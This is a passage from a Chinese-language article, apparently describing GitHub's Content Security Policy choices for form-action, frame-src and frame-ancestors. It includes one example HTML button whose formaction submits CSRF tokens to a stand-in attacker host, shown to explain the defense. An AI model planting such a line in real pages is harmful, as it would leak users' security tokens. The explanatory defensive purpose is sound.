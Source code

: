 类似的通过`button`也可以完成：

```
<button type="submit" form="version-form" formaction="https://some_evil_site.com/log_csrf_tokens">Click Me</button>

```

通过限制`form-action`到特定的 domain list，可以减低所有通过 form 表单提交的方法来窃取敏感信息的可能性。

但是GitHub测试后发现，当用户在使用 Github OAuth 来登录第三方应用时，因为限制了`form-action`，会导致登陆失败。

来看一下OAuth登录的过程，用户访问类似如下链接`https://github.com/login/oauth/authorize?client_id=b6a3dd26bac171548204`，如果用户之前已经授权过该应用，就会跳转到应用程序的网站，如果没有则会弹框让用户先允许授权。授权的过程会向 GitHub.com 提交一个`POST`请求，然后302跳转到应用的网站。在这个过程中，form表单时提交到 GitHub.com的，但是响应是跳转到第三方网站，因为第三方网站的domain不在`form-action`的列表里，跳转会blocked。

那么是否要移除`form-action`的限制呢？GitHub想到使用 "meta refresh" 跳转，类似这样：

```
<head>      
    <title>The Tudors</title>      
    <meta http-equiv="refresh" content="0;URL='http://thetudors.example.com/'" />    
</head>  

```

[meta refresh](https://www.w3.org/TR/WCAG20-TECHS/H76.html)是用来在客户端进行跳转的一种技术（用js跳转也可以）。通过避免302跳转，CSP只会检查表单提交的请求进行，而不会检查之后的跳转，从而解决了这个问题。

GitHub在文中还提到，他们最终会为`form-action`添加 dynamic source 支持。

child-src/frame-src
-------------------

Inline frames (iframes) 是很强的安全边界。每个 frame 都受到同源策略的限制，就如同在单独的window 或 tab 打开一样。但是有一些情况下，比如攻击者能够在 GitHub.com 上注入一个frame，frame能够加载任意网站的内容，如果这个网址需要返回一个401的响应码（HTTP Authentication），而此时浏览器不会处理内嵌的contexts，就会弹框要求用户输入帐号密码。对于大多数有安全意识的人都知道GitHub.com不会使用 basic authentication 或 JavaScript`prompt`dialogs，但总有些人不知道，就傻乎乎的输入帐号密码了。

Firefox 浏览器支持一些frame的sandbox指令来防止这样的情况，如`allow-modals`，但是只对某些特定的 sandboxed frames 有效。在CSP中也没有相似的指令来限制某个frame是否能够弹框。目前唯一的缓解措施就是限制能够被framed的 domain。

目前GitHub的策略是只允许自己的渲染域（render domain），比如用来渲染[STL files](https://help.github.com/articles/3d-file-viewer/),[image diffs](https://help.github.com/articles/rendering-and-diffing-images/), 和[PDFs](https://help.github.com/articles/rendering-pdf-documents/)。不久前，GitHub在使用[automatic generator](https://help.github.com/articles/creating-pages-with-the-automatic-generator/)来生成预览页面的地方加入了`self`。这里GitHub也提到，在将来，会使用之前提到的动态策略（dynamic policy）来取代。

frame-ancestors
---------------

这个指令是用来取代`X-FRAME-OPTIONS`header的，可以缓解点击劫持（clickjacking ）和其它。目前该指令没有得到浏览器广泛的支持，GitHub 在所有的响应中同时设置了`frame-ancestors`指令和`X-FRAME-OPTIONS`header。目前默认的策略是阻止所有 framing GitHub内容的行为 。和`frame-src`类似，这里是用了动态策略，在[预览生成的GitHub页面](https://help.github.com/articles/creating-pages-with-the-automatic-generator/)的地方添加了`self`。同时我们也允许通过 iframes 来 framing 分享[Gists](https://gist.github.com/)的页面。

base-uri
--------
